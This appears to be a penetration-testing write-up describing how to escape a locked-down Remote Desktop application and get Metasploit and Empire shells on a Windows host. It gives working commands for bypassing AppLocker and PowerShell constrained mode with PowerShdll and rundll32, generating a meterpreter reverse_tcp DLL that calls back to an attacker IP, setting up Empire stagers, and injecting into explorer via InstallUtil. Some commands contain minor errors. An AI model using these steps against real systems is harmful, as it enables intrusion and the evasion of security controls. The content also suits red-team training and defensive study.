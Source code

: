 # From RDS app to Empire shell
This article details a scenario where you only have access to a Remote Desktop Service. This effectively atttemps to lock you to one application one, much similar to Citrix seen in corporate environments.
Additionally this scenario has Applocker on the target box, Powershell is in Language Constrained Mode which prevents many powershell tricks from being used. On top of that Windows Defender is eating your shells.

**Requirements:**
* The RDS server does not block port 80 outbound.
* .Net v3.5 for dll mode in PowerShdll

**Important notes**
powershell.exe _is_ not Powershell. It just hosts the assembly that contains PowerShell and handles I/O. System.Management.Automation.dll
Learn more from the links at the bottom of this article.

#### Getting shell from RDS notepad
https://blog.netspi.com/breaking-out-of-applications-deployed-via-terminal-services-citrix-and-kiosks/
https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/

From the notepad app
Click Help -> View help -> triggers Internet Explorer
Right click on anything -> save target as -> save as lol.ps1 on the Desktop
Press view downloads in IE, press the dropdown on the file, open with -> notepad. then just write powershell.exe in the file and save again
Now right click -> "save target as" in IE again. Go to the dropdown "save as type" and select "all files". The ps1-file you have saved will be revealed and you can just press "run with powershell" and a powershell prompt should pop up. This shell should be in Constrained mode. Verify with `$ExecutionContext.SessionState.LanguageMode`, which should say `ConstrainedLanguage`.

#### Bypssing PoSh constrained mode
Download PowerShdll from https://github.com/p3nt4/PowerShdll
Host powershdll.dll on Kali web server using `python -m SimpleHTTPServer 80`
Navigate to the following URL in IE where http://10.7.253.10/PowerShdll.dll
Save as -> PowerShdll.dll to whatever folder you like. `C:\Windows\Tasks` is generally nice to use when Applocker is installed because it is usually whitelisted. I'm not sure exactly how to check for DLL rules in an Applocked environment yet.
Now navigate to the desktop in the other powershell prompt
Use rundll32 to execute the dll
`rundll32 .\PowerShdll.dll,main -w`
A new interactive powershell prompt should pop up
Verify that constrained language mode has been bypassed with
$ExecutionContext.SessionState.LanguageMode
It should say FullLanguage

#### Getting meterpreter shell
Generate a dll payload
```
msfvenom windows/x64/meterpreter/reverse_tcp lhost=10.7.253.10 lport=8081 -f dll -o msf.dll
```
Set up listener in msf with same payload, host and port.

```
use multi/handler
set host tun0
set port 8081
set payload windows/x64/meterpreter/reverse_tcp
exploit
```

Download the msf.dll using the IE "save as" trick from before. For some reason I am not sure the dll payload is not taken by Windows Defender, not on disk and not when executed.
Now, use rundll32 to execute the dll. We use this because rundll32 is a binary that will not be blocked by Applocker.

`rundll32 .\PowerShdll.dll,Control_RunDLL`

Shell should now spawn in msf.

#### Empire without powershell.exe
This assumes you have a metasploit Session established.
In Empire, create an empire listener and stager. The important things is to set Base64 to false to prevent the stager from calling powershell.exe, which won't work here because of the constrained language mode.
```
uselistener http
set Host 10.7.253.18
set Port 4444
execute
back
usestager multi/launcher
set Base64 false
generate
```

Now in MSF:
```
load powershell
powershell_shell
```
Copypaste the empire listener in the interactive shell, and an agent should spawn in Empire. Congratulations!




## More advanced technique

#### Bypassing powershell constrained mode and applocker
This technique involves packing everything together several times to bypass all the security mechanisms. I recommend reading the article below and trying to replicate each step. Albeit, I have made a step by step overview of it below.
https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell

1 Generate a listener and a hta stager using windows/hta

2 Open ReflectivePick project in visual studio. Add the hta base64 shell stager where appropriate and compile the dll to `ReflectivePick_x64.dll`

3 Use the following commands in PS to encode the DLL to base64 and pipe the results to a file
```
$Content = Get-Content .\ReflectivePick_x64.dll -Encoding Byte
$Encoded = [System.Convert]::ToBase64String($Content)
$Encoded | Out-File "C:\Windows\Tasks\dll.txt"
```


4 Copypaste the content of dll.txt into a new variable in Invoke-ReflectivePEInjection.ps1
```
$dllData = "DLLBASE64_GOES_HERE"
$ProcId = (Get-Process explorer).Id
$Bytes = [System.Convert]::FromBase64String($dllData)
Invoke-ReflectivePEInjection -PEBytes $Bytes -ProcId $ProcId
```


5 Base64 encode the entire script using https://www.base64encode.org/
Open the Bypass project in VS and copypaste the base64 into the encoded variable.
Compile to Bypass.exe with VS.

6 Use installutil.exe to execute bypass.exe

```
set-location \\tsclient\lkylabs
copy-item .\Bypass.exe c:\windows\tasks
cd c:\windows\tasks
C:\windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\Bypass.exe
```


### Useful links

* https://github.com/Ben0xA/AwesomerShell
* https://www.youtube.com/watch?v=czJrXiLs0wM
* https://adsecurity.org/?p=2921
* https://bneg.io/2017/07/26/empire-without-powershell-exe/
* https://artofpwn.com/offensive-and-defensive-powershell-ii.html
* https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell
* https://github.com/caseysmithrc/DeviceGuardBypasses
* https://github.com/Joshua1909/AllTheThings
* https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html

